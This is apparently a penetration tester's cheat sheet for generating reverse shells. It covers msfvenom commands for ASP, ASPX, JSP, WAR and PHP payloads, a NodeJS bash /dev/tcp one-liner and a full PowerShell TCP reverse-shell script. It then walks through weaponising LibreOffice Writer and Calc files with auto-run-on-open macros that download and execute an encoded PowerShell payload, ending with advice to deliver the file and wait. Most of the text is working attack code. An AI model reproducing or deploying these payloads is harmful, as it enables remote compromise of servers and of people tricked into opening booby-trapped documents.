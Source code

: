 #### asp
Is it IIS 5.1?

5.1
```bash - kali
cp /usr/share/webshells/asp/cmd-asp-5.1.asp .
```

![[Pasted image 20220614101904.png]]

OR

```bash - kali
cp /usr/share/webshells/asp/cmdasp.asp .
```

32 bit Stageless:
```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse86.asp
```

32 bit Staged:
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse86.asp
```

64 bit Stageless:
```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse64.asp
```

64 bit Staged:
```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse64.asp
```

#### aspx
```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

32 bit Stageless:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse86.aspx
```

32 bit Staged:
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse86.aspx
```

64 bit Stageless:
```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse64.aspx
```

64 bit Staged:
```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse64.aspx
```

#### jsp	
```bash - kali
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=443 -f raw > reverse.jsp
```

#### jar / war
```bash - kali
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=443 -f war > reverse.war
```

Sometimes the jar itself will not work, we need to extract and upload one of its files:

```bash - kali
jar -xvf reverse.war
```

Now find and upload the .jsp file

#### NodeJS
```
echo "require('child_process').exec('bash -c \\'bash -i >& /dev/tcp/$KALI/443 0>&1\\''" > /var/www/node/package.js
```

#### php
```bash - kali
msfvenom -p php/reverse_php LHOST=$KALI LPORT=443 -f raw > reverse.php
```


#### .odt LibreOffice

save the following as Shelly.ps1
```
$client = New-Object System.Net.Sockets.TCPClient('$KALI',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```bash - kali
sudo apt install libreoffice-writer
```

Open LibreOffice Writer application.  start a new file, go to Tools > Macros > Organize Macros > basic.

select "FILE NAME" > New.  Name the Module.

```
REM  *****  BASIC  *****

Sub Main
	Shell("cmd /c powershell iwr http://$KALI/Shelly.ps1 -o %TEMP%/Shelly.ps1")
	Shell("cmd /c powershell -c %TEMP%/Shelly.ps1")
End Sub

```

**Save the document** as odt format.

We then need to make this macro run automatically when the document is opened.

Get out of the macro screen, back to the original file window.
go to Tools > customize > Events > Open Document > Macro >  double click "filename" > double click Standard > Select "macro name" > click OK > click OK

**Save file**

```bash - kali
chmod 755 Shelly.ps1
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[rlwrap]]

upload odt file.

#### .hta - .ods LibreOffice

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh -o evil.hta
```

Open the hta file, copy the "powershell.exe -nop -w hidden -e aQBmA...CQAcwApADsA"

```bash - kali
mousepad transform.py
```

Paste in place for the s variable.
```python
s = "powershell.exe -nop -w hidden -e aQBmA...CQAcwApADsA"

n = 50
for i in range(0, len(s), n):
    chunk = s[i:i + n]
    print('Str = Str + "' + chunk + '"')
```

```bash - kali
sudo apt install libreoffice-calc
```

start a new LibreOffice Calc file, go to Tools > Macros > Organize Macros > basic.

select "FILE NAME" > New.  Name the Module.  Paste in your generated to look like this:

==NOTICE HOW THIS STARTS WITH "cmd.exe /C ......."==

Make sure your Dim and Str's line up!

---

Sub Exploit

   Dim Str As String

   Str = Str + "cmd.exe /C powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
   Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
   Str = Str + "AUwAyAEIAMABLAEEAQQBBAD0AJwAnACkAKQApACwAWwBTAHkAc"
   Str = Str + "wB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgA"
   Str = Str + "uAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6A"
   ...
   Str = Str + "EQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQ"
   Str = Str + "AbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZ"
   Str = Str + "QBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJAB"
   Str = Str + "zAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPA"
   Str = Str + "HUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQ"
   Str = Str + "AbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAc"
   Str = Str + "wAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAB"
   Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
   Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
   Str = Str + "AdABhAHIAdAAoACQAcwApADsA"

   Shell(Str)

End Sub

---

**Save the document**

We then need to make this macro run automatically when the document is opened.

Get out of the macro screen, back to the original file window.
go to Tools > customize > Events > Open Document > Macro >  double click "filename" > double click Standard > Select "macro name" > click OK > click OK

Now just deliver the file and wait for it to be opened.
